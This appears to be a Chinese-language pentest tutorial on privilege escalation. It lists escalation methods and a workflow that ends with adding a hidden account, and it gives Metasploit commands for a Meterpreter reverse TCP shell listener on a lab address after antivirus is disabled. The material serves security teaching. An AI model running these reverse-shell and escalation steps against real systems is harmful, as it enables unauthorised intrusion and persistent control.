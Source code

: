 # 提权

## 一 提权的基本概念

提权是黑客的专业名词，一般用于网站入侵和系统入侵中。顾名思义就是提高自己在服务器中的权限.
比如在windows中你本身登录的用户是guest，然后通过提权后就变成超级管理员，拥有了管理Windows的所有权限。

```
windows：user >> system
linux：user >> root
```

提权的常见方式：

```
    1、系统漏洞提权（Linux、Windows） :系统漏洞提权一般就是利用系统自身缺陷，用来提升权限.
    2、数据库提权 :通过执行数据库语句、数据库函数等方式提升服务器用户的权限.
    3、系统配置错误提权:可以查找系统中以system权限启动的服务或应用，可以尝试将其替换或者反弹shell的方式提权;可以查找NTFS权限允许users修改删除的应用，利用配置不当进行提权；
    4、权限继承类提权:windows开机时候都会有一些开机启动的程序，那时候启动的程序权限都是system，因为是system把他们启动的，利用这点，我们可以将自动化脚本写入启动项，达到提权的目的。  
    5、第三方软件/服务提权
    6、WebServer漏洞提权
```

提权的基本思路：

```
1 拿到低权限SHELL(如webshell/服务低权限账号)
2 搜集主机信息
3 寻找EXP
4 尝试提权到高级别权限账户
5 添加隐藏账户
```



## 二 windows提权

### 2.1 获取低权限shell

将64位msf-shell拷贝至Window-server中（因暂不涉及免杀，为此需提前关闭安全中心的杀软）

```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 172.16.0.2
set lport 4444
exploit
##执行shell后即可上线
```

![image-20230104151123377](../../images//image-20230104151123377.png)